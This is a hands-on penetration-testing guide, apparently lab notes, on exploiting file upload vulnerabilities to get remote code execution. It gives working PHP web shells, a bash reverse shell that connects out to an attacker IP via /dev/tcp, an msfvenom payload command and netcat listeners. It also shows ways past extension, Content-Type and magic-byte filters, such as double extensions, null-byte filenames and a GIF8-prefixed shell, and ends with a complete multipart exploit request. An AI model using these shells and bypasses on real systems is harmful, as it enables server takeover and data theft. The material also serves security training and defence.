# File Upload Attacks

This section documents common techniques for identifying and exploiting **file upload vulnerabilities**. It is intended as a practical, hands-on reference rather than a comprehensive theoretical guide.

---

# Table of Contents

- [File Upload Attacks](#file-upload-attacks)
    - [Overview](#overview)
    - [Basic Exploitation](#basic-exploitation)
    - [Shells](#shells)
        - [Web Shells](#web-shells)
        - [Reverse Shells](#reverse-shells)
    - [Bypassing Filters](#bypassing-filters)
        - [Front-End Filters](#front-end-filters)
        - [Blacklist Filters](#blacklist-filters)
        - [Whitelist Filters](#whitelist-filters)
        - [Content-Type Filters](#content-type-filters)
        - [File Content Filters](#file-content-filters)
    - [Exploitation Example -1](#exploitation-example---1)

---

## Overview

Many web applications provide functionality for users to upload files. If these uploads are not properly validated and restricted, attackers may be able to upload malicious files to the back-end server.

File upload vulnerabilities are relatively common and are frequently classified as `High` or `Critical` severity due to their potential impact. The root cause is typically insufficient validation of uploaded files, such as relying solely on **client-side checks, file extensions, or MIME types**.

The most severe form of this vulnerability is an `unauthenticated arbitrary file upload`. In this scenario, an attacker can upload executable content (for example, a **web shell** or a script that establishes a **reverse shell**), often resulting in remote code execution (RCE) and full compromise of the underlying system.

---

## Basic Exploitation

In the simplest scenario, a target application implements no effective security controls on its file upload functionality. This allows an attacker to upload arbitrary files, including **web shells**, directly to the server.

To achieve code execution, the uploaded payload must be written in the **same programming language** used by the backend. In many cases, the backend language can be inferred directly from the URL structure:

```
http://94.237.57.115:3157/index.php
```


If the file extension is not explicitly visible, it can be manually fingerprinted by requesting common variations of `index.ext` and observing server responses:

```
http://94.237.57.115:3157/index.php

http://94.237.57.115:31571/index.php7

http://94.237.57.115:31571/index.phps

http://94.237.57.115:31571/index.phtml

http://94.237.57.115:31571/index.asp

http://94.237.57.115:31571/index.aspx
```

This process can be automated using application fingerprinting tools such as `whatweb`, `nikto`, or `wappalyzer`:

```bash
nikto -h 94.237.57.115:31571
```

```bash
whatweb 94.237.57.115:31571 --aggression 3 --verbose 
```


Another effective approach is to fuzz for valid extensions using `ffuf`:

```bash
ffuf -w web-extensions.txt:FUZZ -u http://94.237.57.115:31571/indexFUZZ
```


Based on the results, we can confidently determine that the backend is implemented in `PHP`. We therefore prepare a simple PHP web shell:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

The file uploads successfully:


Clicking `Download file` reveals the upload directory:

```
http://94.237.57.115:31571/uploads/shell.php
```


Since the uploaded file is both accessible and executable, we can interact with the web shell via the `cmd` GET parameter:

```
http://94.237.57.115:31571/uploads/shell.php?cmd=id
```


At this point, we have successfully achieved remote code execution (RCE) through an unrestricted file upload vulnerability.

---

## Shells

### Web Shells

Web shells are a common post-exploitation technique used to obtain and maintain remote code execution on a target system. A web shell is typically a script written in the same language as the back-end application and executed through a web-accessible endpoint.

A comprehensive collection of web shells for various programming languages is available at **SecLists**:

- https://github.com/danielmiessler/SecLists/tree/master/Web-Shells

Since PHP is widely used in web applications, PHP-based web shells are particularly common. These shells execute system commands passed via HTTP parameters and return the output in the response.

Common minimal PHP web shells include:

```php
<?php echo passthru($_GET['cmd']); ?>
```

```php
<?php echo exec($_POST['cmd']); ?>
```

```php
<?php system($_GET['cmd']); ?>
```

```php
<?php passthru($_REQUEST['cmd']); ?>
```

These one-liners are often sufficient for command execution and are useful when upload restrictions or file size limits are in place.

We create a simple PHP web shell locally:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

After uploading the file through the vulnerable file upload functionality, the application stores it in the following directory:

```
http://94.237.50.221:56396/uploads/shell.php
```

We can now execute commands on the server through the `cmd` parameter:

```
http://94.237.50.221:56396/uploads/shell.php?cmd=cd+/;cat+flag.txt
```


In addition to minimal one-liner shells, more advanced web shells provide a semi-interactive terminal interface. A popular example is `phpbash`, which offers a browser-based command shell.

- https://github.com/Arrexel/phpbash

For `phpbash` to function correctly, the following conditions must be met:

- JavaScript must be enabled in the client browser
- The target server must allow execution of the PHP `shell_exec()` function

To use `phpbash`, upload the `phpbash.php` file and navigate to its location:

```
http://94.237.50.221:56396/uploads/phpbash.php
```


Interactive web shells like `phpbash` can significantly improve usability during manual post-exploitation but are more likely to be detected due to their size and complexity.

---

### Reverse Shells

Web shells are not always reliable. In some cases, web application firewalls (WAFs), restrictive PHP configurations, or disabled system functions may prevent web shell execution. In these situations, deploying a reverse shell is often a more effective approach.

A reverse shell is initiated from the target system back to the attacker. Because the outbound connection originates from the server, it is less likely to be blocked by firewalls or network filtering mechanisms.

Before triggering a reverse shell, a listener must be started on the attacking machine. A common choice is `netcat`:

```bash
nc -lvnp 4444
```

This listener will wait for an incoming connection from the target.

If the back-end language is PHP, a simple reverse shell can be used. The following payload connects back to the attacker at `10.10.14.137` on port `4444`:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.137/4444 0>&1'");
?>
```

Save the payload as `rev.php` and upload it to the vulnerable application. Once uploaded, navigate to the file in your browser:

```
http://94.237.50.221:56396/uploads/rev.php
```

If successful, the reverse shell will connect back to the listener.

A more robust and widely used reverse shell is provided by `pentestmonkey`:

- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Download the script and modify the following variables:

- `$ip = 'OUR_IP';`
- `$port = OUR_PORT;`



Start a listener:

```bash
nc -lvnp 4444
```

Upload the modified PHP file and browse to its location:

```
http://94.237.50.221:56396/uploads/php-reverse-shell.php
```

Upon execution, the target should establish a reverse shell connection.

Another option is to generate a reverse shell using `msfvenom`, which supports payloads for many programming languages.

The following example generates a PHP reverse shell:

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.189 LPORT=8001 -f raw > reverse.php
```

Upload the generated file and visit the upload location to execute it:

```
http://94.237.50.221:56396/uploads/reverse.php
```

If successful, a reverse shell will connect back to the specified listener.

---

## Bypassing Filters

### Front-End Filters

Some applications rely solely on front-end validation to restrict uploaded file types. This approach is inherently weak, as client-side controls can be bypassed by interacting directly with the back-end using a web proxy such as **Burp Suite**.

In this scenario, the target application allows users to upload a profile image:

```
Update your profile image
```


When attempting to upload a PHP file named `shell.php`, the application returns the following error:

```
Only images are allowed.
```



This indicates that file type validation is in place. However, when uploading the file, no HTTP request is sent to the server. This strongly suggests that validation is occurring **entirely on the client side**.

Inspecting the page source reveals that the upload functionality only permits files with the following extensions:

- `jpg`
- `jpeg`
- `png`



To test the robustness of this validation, we rename `shell.php` to `shell.jpg` while keeping the file contents unchanged (i.e., still containing PHP code). The file uploads successfully:


This confirms that the application performs **extension-based validation only**, without inspecting the file contents. However, PHP code cannot be executed unless the file has a PHP-related extension.

Since validation occurs on the front end, we can bypass it by intercepting the upload request before it reaches the server. The process is as follows:

1. Upload the file with an allowed extension (e.g., `shell.jpg`)
2. Intercept the request using **Burp Suite**
3. Modify the filename in the request to use a **PHP extension**:

```
filename="shell.php"
```


After forwarding the modified request, the server accepts and stores the file. The upload location can be identified by inspecting the page source:

```html

```


Finally, we navigate to the uploaded file and interact with the web shell using the `cmd` parameter:

```
http://94.237.122.95:42771/profile_images/shell.php?cmd=id
```


This confirms successful bypass of front-end validation and results in **remote code execution**.

---

### Blacklist Filters

Blacklist filters are implemented on the back-end and are therefore more robust than front-end validation. An extension-based blacklist consists of a list of **disallowed file extensions**. When a file is uploaded, its extension is compared against each entry in the blacklist, and the upload is rejected if a match is found.

This approach is inherently insecure. Any executable file extension **not explicitly included** in the blacklist may still be accepted and processed by the server, potentially leading to remote code execution.

A common technique for bypassing blacklist filters is to **fuzz for allowed file extensions** and upload a malicious file using an alternative extension that is still interpreted by the server.

When attempting to upload a file named `shell.php`, we initially encounter the same front-end restriction as in the previous section. As before, we bypass the front-end validation by:

1. Uploading the file with an allowed extension (e.g., `shell.jpg`)
2. Intercepting the request using **Burp Suite**
3. Modifying the filename in the request to use a **PHP extension**:

However, when changing the extension to `.php`, the back-end server throws an error:

```
Extension not allowed
```


This confirms the presence of a **back-end blacklist filter**.

When keeping the `.jpg` extension, the upload succeeds—even though the file contains PHP code. This indicates that the filter validates **only the file extension**, not the file contents.

To identify extensions that are not included in the blacklist, we can fuzz for allowed file extensions using `ffuf`. First, we save the intercepted upload request to a file:



We then use `ffuf` to fuzz the filename extension while filtering out responses containing the error message:

```bash
ffuf -w web-extensions.txt:FUZZ -request req.txt -request-proto http -fr "Extension not allowed"
```

This reveals several allowed extensions, including:

- `.php2`
- `.php3`
- `.php4`
- `.php6`
- `.phar`


Not all PHP-related extensions are supported by every web server configuration. Testing the discovered extensions shows that none of the `.php*` variants result in code execution.

However, the `.phar` extension **is processed as PHP** by the server. Uploading the web shell with this extension successfully leads to remote code execution:

```
http://94.237.51.160:49130/profile_images/shell.phar?cmd=id
```



This confirms that the blacklist filter can be bypassed by identifying an alternative executable extension supported by the server.

---

### Whitelist Filters

Whitelist-based validation is generally more secure than blacklist filtering. With a whitelist, **only explicitly permitted file extensions are allowed**, and all others are rejected by default. This significantly reduces the attack surface, as uncommon or obscure executable extensions are excluded unless intentionally permitted.

Whitelist filters are typically used when an application only needs to support a small, well-defined set of file types (e.g., **image uploads**), whereas blacklist filters are more common in applications that must allow a wide range of files (e.g., **file managers**).

When attempting to upload uncommon PHP-related extensions such as `.phar` or `.phtml`, the application rejects the upload with the following message:

```
Only images are allowed
```


Error messages can be misleading, so rather than assuming the filter type, we fuzz for allowed extensions using the error message as a response filter:

```bash
ffuf -w web-extensions.txt:FUZZ -request req.txt -request-proto http -fr "Only images are allowed"
```

The results indicate that only `.php*` extensions pass this check.



However, when attempting to upload files using any of the allowed `.php*` extensions, the server responds with a different error message:

```
Extension not allowed
```


This behavior suggests that multiple validation layers are in place:

- A whitelist filter that permits certain patterns (`Only images are allowed`)
- A blacklist filter that explicitly blocks dangerous extensions (`Extension not allowed`)

A common mistake in whitelist filtering is improper use of regular expressions. Consider the following PHP example:

```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

This filter only checks whether the filename contains a whitelisted extension—not whether it **ends** with one. As a result, it may be bypassed using **double extensions**, such as:


```
shell.php.jpg

shell.jpg.php
```

In our case, however, these payloads still trigger the `Extension not allowed` error:

```
filename=shell.php.jpg

filename=shell.jpg.php
```



This indicates the use of a **strict regular expression**, likely similar to the following:

```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)), $fileName)) {
    echo "Only images are allowed";
    die();
}
```

Here, the `$` anchor ensures that only filenames ending in a valid image extension are accepted, making the filter significantly more robust.

Even strict whitelists can sometimes be bypassed on **outdated or misconfigured systems**, particularly through **character injection**. Certain special characters may cause discrepancies between how the application validates filenames and how the underlying file system interprets them.

Common injection characters include:

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `'''`
- `:`

The null-byte character (`%00`) works with PHP versions `5.X` or earlier. It causes the server to ignore anything after the null-byte, making it useful for double extension bypasses:

- `shell.php%00.jpg` &rarr; `shell.php`

The colon (`:`) accomplishes the same thing on Windows servers:

- `shell.aspx:.jpg` &rarr; `shell.aspx`

To systematically identify bypasses, we generate filename permutations combining:

- Double extensions
- PHP-related extensions
- Special characters

The following wordlist contains many double extensions, including some with special characters:

- /usr/share/seclists/Discovery/Web-Content/web-extensions-big.txt

Another option is to write a bash script that generates all different permutations. The following script generates a comprehensive wordlist:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

We then fuzz against the blacklist filter:

```bash
ffuf -w wordlist.txt:FUZZ -request req.txt -request-proto http -fr "Extension not allowed"
```

The results are refined and passed into a second scan targeting the whitelist filter:

```bash
cut -d " " -f 1 first-filter.txt > filter1.txt
```

```bash
ffuf -w filter1.txt:FUZZ -request req.txt -request-proto http -fr "Only images allowed"
```

This process yields multiple candidates that bypass both filters.

One successful payload is:

```
filename="shell.phar/.jpg"
```




Visiting the uploaded file confirms remote code execution:

```
http://94.237.120.119:48470/profile_images/shell.phar.jpg?cmd=id
```


---

### Content-Type Filters

Relying solely on file extension checks—whether via blacklists or whitelists—is insufficient to prevent file upload vulnerabilities. More robust applications also validate the file content to ensure it matches the expected file type.

One common approach is validating uploads based on the `Content-Type` HTTP header.

When attempting to upload a file containing PHP code, the application responds with the following error:

```
Only images are allowed
```



This error persists even when attempting previously discussed blacklist or whitelist bypass techniques. This behavior indicates that the application is validating uploads based on file content, either by inspecting the `Content-Type` header or by performing deeper file inspection.

A typical `Content-Type` validation mechanism in PHP may look like this:

```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

In this example, the application reads the uploaded file’s `Content-Type` header and compares it against a list of allowed `Content-Type` values.

When a file is selected for upload, the browser automatically sets the `Content-Type` header, usually based on the file extension. Since this occurs client-side, the header can be **intercepted and modified** using a web proxy such as **Burp Suite**. In some cases, changing this header alone is sufficient to bypass the filter.

Uploading a legitimate image succeeds as expected:

```
File successfully uploaded
```


In this case, the browser sets the `Content-Type` to `image/png`. When intercepting the request and changing the header to `text/plain`, the upload fails:

```
Only images are allowed
```


This confirms that the application actively validates the `Content-Type` header.

To identify which types are accepted, we can fuzz the `Content-Type` header using a known-good image file and filter responses based on the error message.

A commonly used wordlist for this purpose is:

- https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

Insert the `FUZZ` placeholder into the intercepted request and save it to a file:



Then fuzz the `Content-Type` header using `ffuf`:

```bash
ffuf -w web-all-content-types.txt:FUZZ -request req.txt -request-proto http -fr "Only images are allowed"
```

The scan reveals that only the following `Content-Type` values are accepted:

- `image/jpeg`
- `image/png`
- `image/gif`



If the application relies only on the `Content-Type` header for validation, the filter can be bypassed by intercepting the upload request and changing the header to an allowed value.

The `Content-Type` header does not influence whether server-side code executes. As long as the uploaded file uses a PHP-related extension and is stored in an executable location, embedded PHP code may still execute—even if the file is labeled as an image.

---

### File Content Filters

A more robust approach to file validation is inspecting the actual file contents rather than relying on extensions or HTTP headers. This is typically done by validating the file’s `MIME` type.

**Multipurpose Internet Mail Extensions (MIME)** define file types based on a file’s structure and byte patterns, rather than its name. Servers commonly determine the `MIME` type by examining the **file signature**, also known as the **magic bytes**, which are located at the beginning of a file.

For example, a file starting with `GIF8`, `GIF87a` or `GIF89a` is identified as a GIF image, regardless of its extension.

Common file signatures include:

| File Type       | ASCII Signature       | HEX Signature   |
| ----------------| --------------------- |---------------- |
| `GIF`           | `GIF87a` or `GIF89a`  | 47 49 46 38     |
| `PNG`           | `.PNG`                | 89 50 4E 47     |
| `BMP`           | `BM`                  | 42 4D           |
| `JPG`           |                       | FF D8 FF E0     |

When an application validates files based on `MIME` type, modifying the file’s magic bytes can be enough to bypass the filter.

In this scenario, uploading a PHP web shell fails even when using allowed extensions and valid `Content-Type` headers. This indicates that the server is validating the file’s `MIME` type by inspecting its contents.

By prepending valid image magic bytes to the file, we can trick the server into identifying it as an image while still embedding executable PHP code.

For example, adding the `GIF8` signature at the beginning of the file:

```php
GIF8
<?php system($_GET["cmd"]); ?>
```



The file is now recognized as a GIF image by the `MIME` filter. This technique demonstrates that MIME-based validation alone is insufficient if executable content is not explicitly stripped or rendered inert after upload.

---

## Exploitation Example - 1

This example demonstrates a full exploitation chain against a file upload functionality protected by multiple layered defenses, including:

- Front-end extension validation
- Back-end blacklist and whitelist filters
- Content-Type validation
- MIME-type (magic byte) validation

Inspection of the page source reveals a **front-end extension filter** that restricts uploads to the following file types:

- `.jpg`
- `.jpeg`
- `.png`


Uploading a legitimate `.png` image succeeds, confirming the expected behavior.


To identify additional server-side validation, the file extension is modified from `.png` to `.php` while keeping the file content unchanged.

This causes an error:

```
Extension not allowed
```

Because the file content is still a valid PNG image, this confirms the presence of a **back-end extension filter**.



We fuzz the upload endpoint for permitted extensions using `ffuf`, filtering on the error message:

```bash
ffuf -w web-extensions.txt:FUZZ -request req.txt -request-proto http -fr "Extension not allowed"
```

The scan reveals several accepted extensions. The most relevant PHP-related extensions are:

- `.phtml`
- `.phar`
- `.pht`



Next, we test whether the application validates the `Content-Type` header. Changing the header from `image/png` to `text/plain` results in:

```
Only images are allowed
```

This confirms the presence of a `Content-Type` filter.



We fuzz for accepted content types:

```bash
ffuf -w web-all-content-types.txt:FUZZ -request req.txt -request-proto http -fr "Only images are allowed"
```

Only the following values are accepted:

- `image/jpeg`
- `image/png`
- `image/gif`



At this stage, the application enforces:

- Extension validation
- Content-Type validation
- MIME-type validation

Even when using:

- An allowed extension
- An allowed Content-Type
- Embedded PHP code

…the upload is still rejected:

```
Only images are allowed
```



This indicates that magic bytes are being inspected.

To bypass the remaining restrictions, we combine several techniques:

- Double extensions
- Allowed image extension first
- Allowed PHP-related extension second
- Valid image magic bytes

The following filenames successfully bypass the filters:

```
shell.gif.phar
shell.gif.phtml
shell.gif.pht
```

We prepend the `GIF8` magic bytes to satisfy MIME-type validation.

Example payload:

```
------WebKitFormBoundarynzyLbgp5Pm1zyjLx
Content-Disposition: form-data; name="uploadFile"; filename="shell.gif.phar"
Content-Type: image/gif

GIF8
<?php system($_GET["cmd"]); ?>

------WebKitFormBoundarynzyLbgp5Pm1zyjLx--
```

